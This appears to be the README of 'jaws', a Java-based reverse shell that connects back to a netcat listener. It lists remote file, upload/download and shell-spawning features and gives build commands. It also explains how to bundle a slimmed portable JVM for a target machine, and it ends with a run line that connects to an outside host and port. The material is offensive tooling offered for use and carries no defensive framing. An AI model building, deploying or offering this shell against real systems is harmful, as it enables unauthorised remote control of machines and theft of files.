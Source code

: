 # jaws
jaws is a java based reverse shell. It can run on whatever OS that java will run on. It connects to a netcat listener over a TCP port. The commands are designed to be modular which allows easy feature additions.

# Current Commands
Supports basic file system commands (ls, cat, mkdir, cd, find, zip/unzip etc.)
Upload/download files with TCP port (jaws->netcat and netcat->jaws)
Start and control multiple types of command line interfaces (bash, sh, powershell, cmd)
Run external programs with arguments

# Compilation Steps
The cc.sh script was made to quickly compile all of the java files. It derives a list of java files from a sources.txt file. This file is created with the following linux command from the src directory

`find . -name '*.java' > sources.txt`

If the letter c is included as an argument the java files will be compiled without packaging into a jar file. All compiled class files will be added to a bin directory.

Without the c argument, the java files will be compiled and packaged into a jaws.jar file. A manifest.mf file will be used to point to the main class within the jar file.

Refer to the cc.sh script for the specific compilation commands.

# Custom JVM
If the Java Virtual Machine is not installed on the target machine, a portable JVM can be put together. A smaller JVM can be put together with jdeps and jlink. A full JVM is not necessary for the jaws shell. To get a list of required dependency modules use the jdeps command on the jaws.jar file. The command I use is shown below:

`jdeps --print-module-deps bin/jaws.jar`

Currently only two dependencies are required:

java.base,java.desktop

With that list of dependencies, a smaller portable JVM can be packaged with jlink. I use the following command.

`jlink --module-path ~/src/jdk-21/jmods --add-modules java.base,java.desktop --output ../runtime --no-header-files --no-man-pages --compress zip-9 --strip-debug`

The package can be cross compiled for whatever operating system using the appropriate JDK. In the above example I use the portable JDK-21 for windows. You can download the compressed JDK from oracle for Linux, macOS, and Windows.

[Oracle JDK Download](https://www.oracle.com/java/technologies/downloads/#java21)

After downloading the JDK, it needs to be unzipped and the jmods directory needs to be included in the above command. The JVM will be packaged into the directory provided with the --output option. The jar file can then be added into the runtime library and ran with the java binary within the bin folder.

`./runtime/bin/java.exe -jar jaws.jar 192.168.0.1 54321`

